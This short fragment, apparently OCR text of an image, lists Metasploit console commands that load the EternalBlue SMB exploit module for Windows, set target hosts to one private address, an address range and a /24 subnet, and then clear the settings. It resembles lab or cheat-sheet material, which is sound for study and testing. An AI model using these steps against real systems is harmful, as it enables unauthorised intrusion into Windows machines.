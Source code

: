 use exploit/windows/smb/ms17_010_eternalblue
show options

# set target

set rhosts 10.10.15.10
set rhosts 10.10.15.10 - 10.10.15.255
set rhosts 10.10.15.10/24


# check

show options

# flushing datastore

unset all